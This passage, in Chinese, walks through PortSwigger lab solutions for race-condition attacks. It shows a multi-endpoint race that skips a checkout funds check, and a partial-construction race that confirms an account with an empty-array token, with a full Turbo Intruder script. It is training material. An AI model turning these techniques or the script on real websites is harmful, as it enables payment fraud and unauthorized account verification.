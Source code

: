 在Repeater里，将`POST /card`和`POST /card/checkout`添加到一个新组中，然后通过单个连接按序列发送，对比响应时间。

然后再将`GET /`添加到该组开头，继续通过单个连接按序列发送，对比响应时间。

<img src="Racing and Smashing the state machine/image-20230813233044992-16922671326167.png" alt="image-20230813233044992" style="zoom:50%;" />

PortSwigger 的教程指出这里两次测试下的`POST /card`的响应时间要明显长于`POST /card/checkout`。可能是我的网络环境问题导致并不明显，或者需要更直观的数据体现。

添加目标修改`POST /card`的 productId 为1，通过 http/2 单包发送。这里可能由于一些干扰因素，需要多次尝试，提示`insufficient funds`就先移除jacket，换成一张card。

![image-20230813233159601](Racing and Smashing the state machine/image-20230813233159601-16922670750615.png)

_很明显是绕过的`/card/checkout`路由下的资金是否充裕检测直接结账 导致后续资金为负数_



## Lab: Partial construction race conditions

https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction

部分构造攻击[^11]是针对数据结构层面的利用，即在状态机改变过程中留下一个`race window`。例如 JSON 数据设定过程中留下了`undefined`或`null`的状态，PHP array 创建过程中留下了空数组。由于自定义客户端的处理不一，可能会对该中间状态做出不同的解释。

题目目标是利用不存在的邮箱注册账号，并赋有`/email`的邮箱客户端。提交注册请求，查看浏览器 DevTools > Network 可以看到资源`/resources/static/users.js`被加载，并泄露确认链接形似`/comfirm?token=`。

考虑服务端在保存token时存在部分构造状态。通过修改token进行测试：提交`/confirm?token=1`返回 "Incorrect token: 1"；提交`/confirm?token[]=`返回 "Incorrect token: Array"，由此可以确认服务端框架解析`token[]=`为空数组。现使用空数组匹配部分构造状态。（这里的单包初步测试出现了协议不一致的问题，直接修改再反复点击刷新为http/2）

为了避免错过短暂的`race window`，使用`turbo Intruder(Extension)`并发大量请求。

```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )

    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0aae00b1046ded96810f3f720043001b.web-security-academy.net
Cookie: phpsessionid=iDVi7uegZUoLuFLuHslvxFHWwi0buIxL
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'U0er' + currentAttempt

        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)

        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)

        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)


def handleResponse(req, interesting):
    table.add(req)
```


[^1]: https://portswigger.net/research/smashing-the-state-machine
[^2]: https://www.usenix.org/conference/usenixsecurity20/presentation/van-goethem
[^3]: https://aaltodoc.aalto.fi/bitstream/handle/123456789/47110/master_Papli_Kaspar_2020.pdf
[^4]: https://en.wikipedia.org/wiki/Nagle%27s_algorithm
[^5]: https://gitlab.com/gitlab-org/gitlab/-/commit/e4d8d4f818275d42469d154b72fc6367b2b86bbb
[^6]: https://baike.baidu.com/item/%E5%8E%9F%E5%AD%90%E6%93%8D%E4%BD%9C/1880992
[^7]: https://www.zhihu.com/question/25532384/answer/81152571
[^8]: https://zhuanlan.zhihu.com/p/40211594
[^9]: https://github.com/heartcombo/devise
[^10]: https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group#sending-requests-in-parallel
[^11]: https://portswigger.net/research/smashing-the-state-machine#partial-construction